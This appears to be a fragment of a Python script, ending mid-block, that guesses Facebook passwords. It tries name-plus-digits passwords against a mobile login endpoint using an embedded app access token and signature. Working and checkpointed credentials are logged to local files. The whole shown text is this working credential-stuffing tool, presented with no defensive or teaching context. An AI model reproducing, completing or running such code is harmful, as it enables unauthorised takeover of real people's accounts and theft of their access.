 	
        def main(arg):
		user=arg
		uid,name=user.split("|")
		try:
		    pass1=name+"123"
		    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		    d=json.loads(q)
		    if 'www.facebook.com' in d['error_msg']:
		        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass1+"\x1b[1;91m | \x1b[1;97m"+name)
		        cp=open("cp.txt","a")
		        cp.write(uid+" | "+pass1+"\n")
		        cp.close()
		        cps.append(uid)
		    else:
		    	if "access_token" in d:
		            print("\x1b[1;92m[Successfull] "+uid+" | "+pass1+" | "+name)
		            ok=open("ok.txt","a")
		            ok.write(uid+" | "+pass1+"\n")
		            ok.close()
		            oks.append(uid)
		        else:
		            pass2=name+"1234"
		            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		            d=json.loads(q)
		            if 'www.facebook.com' in d['error_msg']:
		                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass2+"\x1b[1;91m | \x1b[1;97m"+name)
		                cp=open("cp.txt","a")
		                cp.write(uid+" | "+pass2+"\n")
		                cp.close()
		                cps.append(uid)
		            else:
		                if 'access_token' in d:
		                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass2+" | "+name)
		                    ok=open("ok.txt","a")
		                    ok.write(uid+" | "+pass2+"\n")
		                    ok.close()
		                    oks.append(uid)
		                else:
		                    pass3=name+"12345"
		                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                    d=json.loads(q)
		                    if 'www.facebook.com' in d['error_msg']:
		                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass3+"\x1b[1;91m | \x1b[1;97m"+name)
		                        cp=open("cp.txt","a")
		                        cp.write(uid+" | "+pass3+"\n")
		                        cp.close()
		                        cps.append(uid)
		                    else:
		                        if 'access_token' in d:
		                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass3+" | "+name)
		                            ok=open("ok.txt","a")